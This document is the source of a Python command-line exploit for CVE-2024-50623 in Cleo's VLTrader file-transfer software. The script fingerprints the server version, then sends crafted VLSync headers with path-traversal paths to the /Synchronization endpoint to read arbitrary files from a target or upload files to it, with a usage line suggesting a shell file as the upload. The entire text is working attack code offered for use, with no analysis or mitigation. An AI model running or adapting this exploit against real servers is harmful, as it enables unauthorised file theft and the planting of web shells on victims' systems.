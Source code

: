 ```
print(banner)

parser = argparse.ArgumentParser(usage="""python CVE-2024-50623 --target http://192.168.1.1/ --action read_or_write --where ..\\..\\pwned.txt --what shell.dll_jsp_xml_txt_zip""", description="Cleo Unrestricted file upload and download vulnerability (CVE-2024-50623)")

parser.add_argument("--target", help="Target URL", required=True)
parser.add_argument("--action", help="Action to perform", choices=['write', 'read'], required=True)
parser.add_argument("--where", help="File to write or read", required=True)
parser.add_argument("--what", help="local file to upload", required=False)

args = parser.parse_args()
args.target = args.target.rstrip('/')

s = requests.Session()
s.verify = False

def extract_version(target):
    r = s.get(f"{target}/Synchronization")
    version = r.headers['Server'].split('/')[1].split(' ')[0]
    return version

def read_file(target, where, target_version):
    headers = {
        'VLSync': f"Retrieve;l=Ab1234-RQ0258;n=VLTrader;v={target_version};a=1337;po=1337;s=True;b=False;pp=1337;path={where}"
    }


    r = s.get(f"{target}/Synchronization", headers=headers)
    if(r.status_code == 200):
        print(r.text)
    else:
        print("[ERROR] Failed to read the file")


def write_file(target, where, what, target_version):

    headers = {
        'VLSync': f"ADD;l=Ab1234-RQ0258;n=VLTrader;v={target_version};a=1337;po=1337;s=True;b=False;pp=1337;path={where}"
    }

    r = s.post(f"{target}/Synchronization", headers=headers, data=what)
    if(r.status_code == 200):
        print("[INFO] File written successfully")
    else:
        print("[ERROR] Failed to write the file")




if(args.action == 'read'):
    read_file(args.target, args.where, extract_version(args.target))
elif(args.action == 'write'):
    if(args.what == None):
        print("[ERROR] --what is required for write action")
        exit(1)
    write_file(args.target, args.where, open(args.what,"rb").read(), extract_version(args.target))
else:
    print("[ERROR] Invalid action")
    exit(1)
```  